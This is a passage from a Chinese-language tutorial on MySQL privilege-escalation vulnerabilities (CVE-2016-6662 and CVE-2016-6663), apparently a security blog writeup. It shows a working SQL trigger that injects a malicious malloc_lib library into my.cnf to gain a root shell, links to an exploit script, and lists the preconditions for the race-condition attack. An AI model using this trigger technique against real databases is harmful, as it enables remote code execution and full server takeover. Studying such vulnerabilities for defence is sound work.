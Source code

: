 ![image-20210125114046330](assets/1611564734_600e86be260345cf41483.png!small)

查看目标机MySQL配置文件，发现已经成功写入了恶意的配置项：

![image-20210125114244958](assets/1611564737_600e86c165a2f18fda718.png!small)

然后等待目标mysql，攻击者机器上边获得了目标主机的shell：

![image-20210125114420869](assets/1611564739_600e86c31077a1b1c90a0.png!small)

上述的操作要修改general_log全局变量，也就是说攻击者当前获得权限的MySQL用户必须是root权限。如果攻击者当前获得权限的MySQL用户不是root权限，则我们无法修改general_log全局变量，那么此时我们还可以利用此漏洞吗？当然可以，只需要一个具有 select、insert、create、file 权限的用户即可。

我们可以利用MySQL触发器的方法来成功写入修改配置文件：

```
CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `active_table` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'
" INTO void;
   set global general_log = off;
END;
```

当表刷新的时候就会执行触发器，比如通过insert来让表刷新：

```
INSERT INTO `active_table` VALUES('xyz');
```

触发器的代码会以mysql root权限执行，从而让攻击者修改general_log设置，即使此时攻击者没有数据库的管理员权限。

给出一个利用脚本：http://legalhackers.com/exploits/0ldSQL_MySQL_RCE_exploit.py

### D.2 CVE-2016-6663（可将www-data权限提升为mysql权限）

2016年11月01日，国外安全研究员Dawid Golunski在 MySQl、MariaDB 和 PerconaDB  数据库中发现条件竞争漏洞。该漏洞允许本地用户使用低权限（CREATE/INSERT/SELECT权限）的账号提升权限到数据库系统用户权限（通常是mysql用户权限）来执行任意代码，黑客成功利用此漏洞后，可以完全访问数据库。

**该漏洞影响的版本如下：**

MySQL：

- <= 5.5.51
- <= 5.6.32
- <= 5.7.14

**漏洞利用条件：**

- 攻击者已经获取到目标服务器的webshell权限
- 可以通过反弹shell的方法获得目标主机的交互环境
- 已经拿到了一个低权限（CREATE/INSERT/SELECT权限）的 MySQL 账户的用户名和密码
- 目标主机的MySQL版本在漏洞影响范围内
